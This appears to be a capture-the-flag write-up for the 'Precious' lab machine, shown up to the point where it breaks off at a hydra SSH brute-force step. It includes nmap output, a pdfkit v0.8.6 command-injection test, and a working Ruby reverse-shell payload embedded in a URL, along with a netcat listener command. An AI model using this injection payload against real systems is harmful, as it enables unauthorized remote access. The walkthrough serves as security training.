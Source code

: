 ## Precious Writeup

### Machine IP

``` 
10.10.11.189
```

### nmap scan

```
$ nmap -sC -sV -Pn -T4 10.10.11.189

Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-26 08:30 EST
Nmap scan report for precious.htb (10.10.11.189)
Host is up (0.37s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
|_http-title: Convert Web Page to PDF
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.04 seconds
```

We can see ssh and http are open. We also have something called Phusion Passenger on port 80.


### precious.htb

The http site takes us to a "Convert Web Page to PDF" tool.

Let's spin up a python web server with:

```
python3 -m http.server
```

Using our local IP to connect to the python server and tring to download the root page of the web server...sure enough, the tool gives us a PDF file with the directory listing.

Trying to convert a file with an inline `<script>` tag gives us nothing. Seems as though there is some kind of input sanitization.


### pdf file analysis

Analysing the output pdf file from earlier with `exiftool`:

```
$ exiftool out.pdf
ExifTool Version Number         : 12.52
File Name                       : out.pdf
Directory                       : .
File Size                       : 4.6 kB
File Modification Date/Time     : 2023:01:26 08:49:11-05:00
File Access Date/Time           : 2023:01:26 08:49:21-05:00
File Inode Change Date/Time     : 2023:01:26 10:07:43-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

Interesting... the creator is 'pdfkit v0.8.6'. Let's scour the web for any exploits for this version of pdfkit!


### pdfkit exploit

[This link](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) gives us information about a command injection exploit via ruby, demonstrated by the following example code:

```
PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf 
# 5 seconds wait... 
```

Let's try this out...sure enough, the page seems to hang for around 5 seconds on submitting the web page!

Time to head to revshells...

 
### Reverse Shell Injection

We read that this exploit was a ruby based exploit. So we spin up a `nc` listener:

```
nc -lnvp 4444
```

and insert a ruby based revshell into our URL like so...

```
http://<LOCALIP>:<LOCALPORT>/?name=%20  {`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("<LOCALIP>",<NCLISTENERPORT>))'`}
```

Clicking submit, we get reverse shell access!


### Directory searching

We find a few files relating to the pdf converter.

Navigating to `/home`, we find there are two users:
1. `ruby` (current user)
2. `henry`

In `henry`'s home directory, we find the `user.txt` flag. cat, head and less don't work on this file do to restrictions. Let's try sshing into the machine as we at least have `henry` username!


### hydra

Let's try and bruteforce the ssh password with hydra.



